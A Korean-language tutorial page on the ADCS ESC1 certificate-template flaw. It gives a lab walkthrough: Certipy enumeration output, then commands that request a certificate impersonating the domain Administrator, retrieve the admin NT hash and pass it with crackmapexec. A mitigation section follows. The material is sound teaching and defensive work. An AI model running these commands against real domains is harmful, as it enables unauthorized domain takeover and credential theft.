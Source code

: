 # ESC1

> 이 페이지와 하위 페이지들에 있는 ADCS와 관련된 개념 및 공격 방식은 모두 SpecterOps 사의 Will Schroeder 분과 Lee Christensen 분이 2021년에 작성하신 "[Ceritfied Pre-Owned](https://www.specterops.io/assets/resources/Certified\_Pre-Owned.pdf)" 라는 백서를 기반으로 만들어졌습니다. 더 자세하게 알아보고 싶으신 분들은 레퍼런스 섹션의 백서를 참고해주시기 바랍니다.

### 개념

ADCS의 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 라는 설정이 존재한다. 이 설정이 되어있는 취약 인증서 양식은 공격자 인증서 서명 요청을 보낼 때 자신이 원하는 유저를 주체로 특정해 보낼 수 있다. 예를 들자면,

1. Choi -> CA: 저 인증서 서명 요청 드립니다. 근데 SAN (Subject Alternative Name) 특성은 choi가 아니라 `Administrator@choi.local` 이라는 도메인 관리자로 해주세요.
2. CA -> Choi: 네, 인증서 발급하겠습니다. 요청대로 SAN에는 도메인 관리자 유저 이름을 넣어서 발급해드릴게요.
3. Choi: 감사합니다. - 일반 도메인 유저에서 도메인 관리자로 권한 상승 성공.

어이가 없을 정도로 간단하고 위험한 설정이지만, 실제로 존재하는 설정이다.

### 전제 조건

1. `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정 활성화
2. Manager Approval 설정 비활성화
3. Authorized Signature 설정 비활성화
4. 해당 인증서 양식에 공격자의 유저가 인증서 발급 권한 존재
5. CA 서버가 공격자의 유저에게 인증서 발급 권한을 허용

### 실습

#### ESC 1 정보 수집

Certipy 를 통해 정보 수집을 한 뒤, ESC1 에서 취약한 인증서 양식을 찾았다. Certipy 의 출력을 살펴본다.

```
Certificate Templates
  0
    Template Name                       : macUsers
    Certificate Authorities             : choi-DC01-CA
    [ ... ]
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    [ ... ]
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Authorized Signatures Required      : 0
    Requires Manager Approval           : False
    [ ... ]
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CHOI.LOCAL\Domain Admins
                                          CHOI.LOCAL\Domain Users
                                          CHOI.LOCAL\Enterprise Admins
    [ ... ]
    [!] Vulnerabilities
      ESC1                              : 'CHOI.LOCAL\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

많은 정보가 있지만, ESC1 을 사용하는데 있어 필요한 전제 조건들 4개를 살펴보자.

1. `Enrollee Supplies Subject: True - CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 설정이 활성화 되어 있다.
2. Requires Manager Approval: False - 비활성화 되어 있다.
3. Authorized Signature: 0 - 비활성화 되어 있다.
4. Enrollment Rights - `Choi.local\Domain Users` - CA 서버와 인증서 양식에 공격자의 유저 발급 권한 존재. 공격자 뿐만 아니라 도메인 유저 전체가 이 인증서 양식을 통해 도메인 관리자 인증서를 발급 받을 수 있는 상태다.

#### 공격

1. Certipy 를 이용해 원하는 타겟 유저의 이름을 SAN 으로 지정해 인증서를 발급 받는다.

```
$ certipy req -u <user> -p <pass> -ca <CA> -target <CA-FQDN> -template <취약한-양식-이름> -upn <타겟-유저> 

예) $ certipy req -u low@choi.local -p 'Password123!' -ca choi-DC01-CA -target dc01.choi.local -template macUsers -upn Administrator@choi.local -dns dc01.choi.local 
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully requested certificate
[*] Got certificate with multiple identifications
    UPN: 'Administrator@choi.local'
    DNS Host Name: 'dc01.choi.local'
[*] Saved certificate and private key to 'administrator_dc01.pfx'
```

2\. 발급 받은 인증서는 유저 인증에 사용할 수 있다. 도메인 관리자의 NT 해시를 획득한다.

```
$ certipy auth -pfx <#1의 인증서 파일 이름> -dc-ip <DC-IP> 

예) $ certipy auth -pfx administrator_dc01.pfx -dc-ip 192.168.40.150                         
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@choi.local'
    [1] DNS Host Name: 'dc01.choi.local'
> 0
[*] Using principal: administrator@choi.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@choi.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe
```

3\. 도메인 관리자의 NT 해시를 이용해 인증한다.

```
$ cme smb <DC-IP> -u Administrator -H <NThash> -d <domain>
```

### 대응 방안

* ESC1의 근본적인 문제는 특정 인증서 양식에 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 플래그가 활성화 되어 있다는 것이다. 이를 해결한다.
* 프로덕션 서버에서는 충분한 테스트를 거친 뒤 설정을 해제한다.
* CA 서버 > `certtmpl.msc` > 인증서 양식 오른쪽 클릭 > Properties > `Subject Name` 탭 > Supply in Request 설정 해제
* `Supply in Request` 가 꼭 필요하다면 Properties > Issuance Requirements > CA Certificate Manager Approval 을 설정해 인증서 관리자 계정이 허락을 해야 인증서가 발급되도록 바꾼다.

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/esc1.png" alt=""><figcaption><p>CT-FLAG-ENROLLEE-SUPPLIES-SUBJECT 를 비활성화 한다</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (109).png" alt=""><figcaption><p>Certificate Manager Approval 을 활성화 한다</p></figcaption></figure>

### 레퍼런스

{% embed url="https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf" %}

{% embed url="https://github.com/ly4k/Certipy" %}
